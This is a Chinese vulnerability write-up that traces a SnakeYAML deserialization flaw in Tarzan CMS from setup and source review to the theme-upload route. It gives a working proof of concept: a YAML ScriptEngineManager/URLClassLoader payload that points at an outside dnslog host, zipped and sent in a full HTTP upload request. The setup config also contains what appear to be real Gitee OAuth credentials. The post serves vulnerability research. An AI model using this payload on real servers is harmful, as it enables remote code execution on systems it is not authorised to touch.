# 泰山 cms snakeyaml 反序列化漏洞挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/17100  
> **文章ID**: 17100

---

# 如何挖掘snakeyaml 反序列化漏洞+思路分享

## 前言

这篇文章仅供经验分享，所有敏感信息已做处理。请勿将其当真，未经授权的攻击行为是非法的。使用本文章中的信息所产生的任何后果和损失，由使用者自行承担，作者不负责任。

## 环境搭建

首先下载源码

<https://gitee.com/taisan/tarzan-cms>

然后配置一下我们的配置文件

```
server:
  port: 8979
  http2:
    enabled: true
  undertow:
    # 以下的配置会影响buffer,这些buffer会用于服务器连接的IO操作,有点类似netty的池化内存管理
    buffer-size: 1024
    # 是否分配的直接内存
    direct-buffers: true
    threads:
      io: 16
      worker: 256
    url-charset: UTF-8
  max-http-header-size: 1MB
  compression:
    enabled: true
    minResponseSize: 512
    mime-types: application/json,application/xml,text/html,text/xml,text/plain
  servlet:
    encoding:
      charset: UTF-8
spring:
  profiles:
    active: dev
  datasource:
    druid:
      initial-size: 1
      min-idle: 3
      max-active: 20
      max-wait: 10000
      filters: stat,wall,slf4j
      stat-view-servlet:
        enabled: true
        reset-enable: false
        url-pattern: /druid/*
        allow:
        deny:
      filter:
        wall:
          config:
            multi-statement-allow: true
            comment-allow: true
          enabled: true
      validation-query: select 1
      test-while-idle: true
  thymeleaf:
    cache: false
    mode: HTML
    prefix: file:${user.home}/.tarzan-cms/
    template-resolver-order: 1
    servlet:
      content-type: text/html
    encoding: UTF-8
  jackson:
    date-format: yyyy-MM-dd HH:mm:ss
    time-zone: GMT+8
  data:
    redis:
      repositories:
        enabled: false
  aop:
    proxy-target-class: true
  servlet:
    multipart:
      max-file-size: 100MB
      max-request-size: 100MB
mybatis-plus:
  global-config:
    db-config:
      id-type: auto
  mapper-locations: classpath:mapper/**/*.xml,mapper/*.xml
  type-aliases-package: com.tarzan.**.model


```

然后修改我们的数据库连接配置

```
spring:
  datasource:
    type: com.alibaba.druid.pool.DruidDataSource
    driverClassName: com.mysql.cj.jdbc.Driver
    url: jdbc:mysql://localhost:3306/tscms?useUnicode=true&characterEncoding=UTF-8&useSSL=false&serverTimezone=GMT%2B8&allowPublicKeyRetrieval=true
    username: root
    password: 123456
#    driverClassName: org.h2.Driver
#    url:  jdbc:h2:file:${user.home}/.tarzan-cms/db/cms;MODE=MYSQL
#    username: root
#    password: 123456
#  h2:
#    console:
#      enabled: true
#      settings:
#        web-allow-others: true
#      path: /h2-console
  #jpa:
   #show-sql: true
   #hibernate:
     #ddl-auto: update
   #generate-ddl: false
  redis:
    host: localhost
    port: 6379
    password: 123456
    timeout: 5000
    database: 0
    jedis:
      pool:
        max-idle: 8
        min-idle: 0
        max-active: 8
        max-wait: -1
server:
  servlet:
    context-path: /

file:
  #上传的文件对外暴露的访问路径
  access-path-pattern: /u/**
  #文件上传目录
  upload-folder: /file/upload/
  #文件预览、下载的访问路径前缀
  access-prefix-url: http://localhost:80/u

static:
  #静态html对外访问路径
  access-path-pattern: /html/**
  #静态html路径
  folder: /tarzanCms/html/path

cms:
  shiro-key: ${user.home}/.tarzan-cms/shiro_key.pub
  theme-dir: ${user.home}/.tarzan-cms/theme
  backup-dir: ${user.home}/.tarzan-cms/backup
  embedded-redis-enabled: false
  embedded-redis-port: 6379
  embedded-redis-password: 123456
  preview-enabled: false

social:
  enabled: true
  domain: http://127.0.0.1
  oauth:
    QQ:
      client-id: xxx
      client-secret: xxx
      redirect-uri: http://127.0.0.1:8443/oauth/gitee/callback
    WECHAT_OPEN:
      client-id: xxxxxx
      client-secret: xxxxxx
      redirect-uri: http://127.0.0.1:8443/oauth/baidu/callback
    GITEE:
      client-id: 5b693811f8229e38146f2c482e3f4e4dfbdf2b496d494698b6308d6f35dcb2e0
      client-secret: 428ff220b5aa5704c55a8cf91f13aa4466258a6e7c357c7e30a5bca1d1cbe4e2
      redirect-uri: http://127.0.0.1/auth/oauth/callback/GITEE


```

导入了数据库后启动就 ok 了



## snakeyaml 反序列化特点

我们先看一个例子

Test

```
import org.yaml.snakeyaml.Yaml;

public class Test1 {
    public static void main(String[] args) {
//        Serialize();
        Deserialize();
    }


    public static void Serialize(){
        User user = new User();
        user.setName("ljl");
        user.setAge(18);
        Yaml yaml = new Yaml();
        String dump = yaml.dump(user);
        System.out.println(dump);
    }

    public static void Deserialize(){
        String s = "!!User {age: 18, name: ljl}";
        Yaml yaml = new Yaml();
        User user = yaml.load(s);

    }
}
```

User

```
public class User {

    String name;
    int age;

    public User() {
        System.out.println("User构造函数");
    }

    public String getName() {
        System.out.println("User.getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("User.setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("User.getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("User.setAge");
        this.age = age;
    }
}
```



可以看到在反序列化过程中调用了对象的 set 和构造方法

具体的调试分析以前调试过了

总结来讲其漏洞点就是调用构造函数和 setter 方法

我们寻找反序列化也是比较容易的，首先需要看依赖，然后看版本，然后寻找代码中的数据我们是否可以控制

## 漏洞挖掘

我们按照那个思路，我们首查看依赖



首先是有依赖的，然后我们查看一下

这个版本是有漏洞的

然后就是全局查找代码了



只查看到了一处，我们跟进代码



zis 就是解压后文件的内容，我们查找调用

只查找到了一个调用

```
@CacheEvict(value = "theme", allEntries = true)
public ResponseVo upload(byte[] bytes) {
    try {
        // 获取文件名
        String themeName =  getZipThemeName(new ByteArrayInputStream(bytes));
        if(StringUtil.isEmpty(themeName)){
            return  ResultUtil.error("主题模板解析异常");
        }
        String themePath = cmsProperties.getThemeDir() + File.separator+themeName;
        File themeDir = new File(themePath);
        // 创建文件根目录
        if (!themeDir.exists() && !themeDir.mkdirs()) {
            return  ResultUtil.error("创建文件夹失败");
        }
        if(!FileUtil.isEmpty(Paths.get(themePath))){
            return  ResultUtil.error("主题已安装");
        }
        FileUtil.unzip(bytes, Paths.get(themePath));
        Optional<File> themeRoot= Arrays.stream(themeDir.listFiles()).findFirst();
        FileUtil.copyFolder(Paths.get(themeRoot.get().getPath()),Paths.get(themePath));
        FileUtil.deleteFolder(Paths.get(themeRoot.get().getPath()));
        Theme theme=new Theme();
        theme.setName(themeName);
        theme.setImg("theme"+ File.separator+themeName+File.separator+"screenshot.png");
        theme.setStatus(0);
        save(theme);
    } catch (IOException e) {
        return  ResultUtil.error(e.getMessage());
    }
    return ResultUtil.success();
}
```

一样的继续找调用



有三个地方调用了我们的方法

因为现成的就有一个路由，直接看到那个地方

```
@ResponseBody
@PostMapping("/upload")
public ResponseVo upload(@RequestParam(value = "file", required = false) MultipartFile file) {
    return themeService.upload(file);
}
```

就是上传一个文件，然后我们上传 zip 文件就好了

## 漏洞实现

我们既然寻找到了来源，我们现在需要想办法实现，首先就是寻找找到漏洞的点

upload 路由

然后我们观察文件的名字，ThemeController，主题

在环境中寻找一下





首先制作一下 yaml 文件

这里方便测试漏洞，文件如下

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://41dc84ff.log.dnslog.sbs."]
  ]]
]
```

然后压缩为 zip 文件

结果弄了半天都没有反应，后面发现了端倪



我们重新写一个文件名称

然后再次上传

```
POST /theme/upload HTTP/1.1
Host: localhost:8979
Content-Length: 1026
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq1ABqZqrRvw2O1PY
Accept: */*
Origin: http://localhost:8979
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8979/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=e61e1ea3-f119-4e24-9529-9a4f9709e5ae; rememberMe=SBpqqLbTBzT9YJPDN+Fkzyze2rkvm3z7AjPjcXR17Rj7f1Rvw2zYlOy6FhG+18eIhPz99+KQKb7FVntSSc0nL/5/r3jtMeBjCGqKhTKtvzKvX6l+lquixzgE+3TjD2kt7xZ4yRhIVnZ0OMP08zoVidx3DVTzB7xor9PpOs6BpwdUZH8LPuQIMiniXY4mFi4/fQ3tpAqp3ubS4HGawzifURTMVzlHRCtS0Mk7Yev57y5IUjOKUvveydLL+J40+27b0SzsS+bPqdJy5s7uysKz/kFGjsGxBpNf5q3LlDo5/yRO3gJnyPWadrnyrJ7FX0cDayMBMRE5XG/0l0ZSGDTMqRwrPVUN1UnH/mdc10GJG9WrM1BJaMqYynLxiaNQ5Y0QSzf6MNQDAsOTIQvW+vqJz0PuE266dygaLwOT0CcwM3FIeA9f5col8V2Jw6zaPiU0Et/H4i9CDVC//ueZTAzIJl+KE5T215flhktyI33u58WeTJSjwSY4EWU54qTQtEqE333KxqxIKbqXRMj4NZRwKOA5ony+Rzyl8O/NvMpBKMIZRdjuEqR0ye3zL5st7sta0Kl8uLzPSgN45S3eeUSWTJv9a8C5Zi4TmDpFVHTSQkDF+pj/zPnqZvimoy5bFUsY8wRwcVjqoAeu+ediGIY/ZK+dNx2d7lliCfKuhLtrCm9jYW8TWDn0sS2a0TscAzPjHXW8xwcV0uVeBDo9jSdc3XAwVlTSCruLmyC8pOEqUx9GiuUsm6BheZFuiUuCcnHQXvhbsPQyEma1cVlzZ153NKGvgN+xRwN42T+ZzUQqB8/L39geQppFQYZyYUZVZHaYCH8kdmBk61jl2YlWHsDwO1W4zph2AFP44jI2trTdLj3flluBUkW4i9/Z7L0u55eyzYyToLBRIwWM6vUluyxFraDPezwesoIQxjXR8C7u0LK0Dhtm8CO5W6hvBi0RIisR8BHgfKuy28eyk8nIn1JoN/0kngcHoVNyODcUvQhkqnYf9eiM9tmRzlMSiRu/jTxLAsf7qBi8yQZps3tv5M8IWn0NcBSFZ44kxaakZc2bx9ECW8/CGigcTTCZyjjRPM99qHUazr++VrA8+AIb983Hpe8CYuk7KOfQCCR44B4rhrbunwC0Y8ZeKmKvG9EHUEZDEaJ6hXDJPRHv+MrYIzC0I32bRVpUFiqVHcnpkyl4L8VMt3WWktkMePhQA3ys2NIrndpC0rliUlM3NgnQDwVQORYw+qiERI5aMvhniL7qDY6GE0WbJEX1YiHoWWaxu6L/+0BuT0Xj8VapAo0hXnhXllsE6aRqUfd4/bmbJDdEzxRPDH+MgdqyR+oWJDk=
Connection: keep-alive

------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="id"

WU_FILE_0
------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="name"

theme.zip
------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="type"

application/x-zip-compressed
------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="lastModifiedDate"

Fri Feb 28 2025 23:26:05 GMT+0800 (ä¸­å›½æ ‡å‡†æ—¶é—´)
------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="size"

257
------WebKitFormBoundaryq1ABqZqrRvw2O1PY
Content-Disposition: form-data; name="file"; filename="theme.zip"
Content-Type: application/x-zip-compressed

PK
```

然后查看结果

我们的调用栈

```
getZipThemeName:96, ThemeService (com.tarzan.cms.modules.admin.service.biz)
upload:62, ThemeService (com.tarzan.cms.modules.admin.service.biz)
upload:52, ThemeService (com.tarzan.cms.modules.admin.service.biz)
invoke:-1, ThemeService$$FastClassBySpringCGLIB$$2815f30a (com.tarzan.cms.modules.admin.service.biz)
invoke:218, MethodProxy (org.springframework.cglib.proxy)
intercept:687, CglibAopProxy$DynamicAdvisedInterceptor (org.springframework.aop.framework)
upload:-1, ThemeService$$EnhancerBySpringCGLIB$$989232ff (com.tarzan.cms.modules.admin.service.biz)
upload:37, ThemeController (com.tarzan.cms.modules.admin.controller.biz)
invoke:-1, ThemeController$$FastClassBySpringCGLIB$$f2576da2 (com.tarzan.cms.modules.admin.controller.biz)
invoke:218, MethodProxy (org.springframework.cglib.proxy)
invokeJoinpoint:771, CglibAopProxy$CglibMethodInvocation (org.springframework.aop.framework)
proceed:163, ReflectiveMethodInvocation (org.springframework.aop.framework)
proceed:749, CglibAopProxy$CglibMethodInvocation (org.springframework.aop.framework)
proceed:89, MethodInvocationProceedingJoinPoint (org.springframework.aop.aspectj)
aroundApi:37, PreviewAspect (com.tarzan.cms.aspect)
invoke:-1, GeneratedMethodAccessor178 (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeAdviceMethodWithGivenArgs:644, AbstractAspectJAdvice (org.springframework.aop.aspectj)
invokeAdviceMethod:633, AbstractAspectJAdvice (org.springframework.aop.aspectj)
invoke:72, AspectJAroundAdvice (org.springframework.aop.aspectj)
proceed:175, ReflectiveMethodInvocation (org.springframework.aop.framework)
proceed:749, CglibAopProxy$CglibMethodInvocation (org.springframework.aop.framework)
invoke:97, ExposeInvocationInterceptor (org.springframework.aop.interceptor)
proceed:186, ReflectiveMethodInvocation (org.springframework.aop.framework)
proceed:749, CglibAopProxy$CglibMethodInvocation (org.springframework.aop.framework)
intercept:691, CglibAopProxy$DynamicAdvisedInterceptor (org.springframework.aop.framework)
upload:-1, ThemeController$$EnhancerBySpringCGLIB$$b633d60a (com.tarzan.cms.modules.admin.controller.biz)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
doInvoke:197, InvocableHandlerMethod (org.springframework.web.method.support)
invokeForRequest:141, InvocableHandlerMethod (org.springframework.web.method.support)
invokeAndHandle:106, ServletInvocableHandlerMethod (org.springframework.web.servlet.mvc.method.annotation)
invokeHandlerMethod:893, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handleInternal:807, RequestMappingHandlerAdapter (org.springframework.web.servlet.mvc.method.annotation)
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:1061, DispatcherServlet (org.springframework.web.servlet)
doService:961, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doPost:909, FrameworkServlet (org.springframework.web.servlet)
service:517, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:584, HttpServlet (javax.servlet.http)
handleRequest:74, ServletHandler (io.undertow.servlet.handlers)
doFilter:129, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
doFilter:61, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:108, AdviceFilter (org.apache.shiro.web.servlet)
doFilterInternal:137, AdviceFilter (org.apache.shiro.web.servlet)
doFilter:125, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:66, ProxiedFilterChain (org.apache.shiro.web.servlet)
executeChain:450, AbstractShiroFilter (org.apache.shiro.web.servlet)
call:365, AbstractShiroFilter$1 (org.apache.shiro.web.servlet)
doCall:90, SubjectCallable (org.apache.shiro.subject.support)
call:83, SubjectCallable (org.apache.shiro.subject.support)
execute:387, DelegatingSubject (org.apache.shiro.subject.support)
doFilterInternal:362, AbstractShiroFilter (org.apache.shiro.web.servlet)
doFilter:125, OncePerRequestFilter (org.apache.shiro.web.servlet)
doFilter:61, ManagedFilter (io.undertow.servlet.core)
doFilter:131, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:61, ManagedFilter (io.undertow.servlet.core)
doFilter:131, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:61, ManagedFilter (io.undertow.servlet.core)
doFilter:131, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:61, ManagedFilter (io.undertow.servlet.core)
doFilter:131, FilterHandler$FilterChainImpl (io.undertow.servlet.handlers)
handleRequest:84, FilterHandler (io.undertow.servlet.handlers)
handleRequest:62, ServletSecurityRoleHandler (io.undertow.servlet.handlers.security)
handleRequest:68, ServletChain$1 (io.undertow.servlet.handlers)
handleRequest:36, ServletDispatchingHandler (io.undertow.servlet.handlers)
handleRequest:68, RedirectDirHandler (io.undertow.servlet.handlers)
handleRequest:132, SSLInformationAssociationHandler (io.undertow.servlet.handlers.security)
handleRequest:57, ServletAuthenticationCallHandler (io.undertow.servlet.handlers.security)
handleRequest:43, PredicateHandler (io.undertow.server.handlers)
handleRequest:46, AbstractConfidentialityHandler (io.undertow.security.handlers)
handleRequest:64, ServletConfidentialityConstraintHandler (io.undertow.servlet.handlers.security)
handleRequest:60, AuthenticationMechanismsHandler (io.undertow.security.handlers)
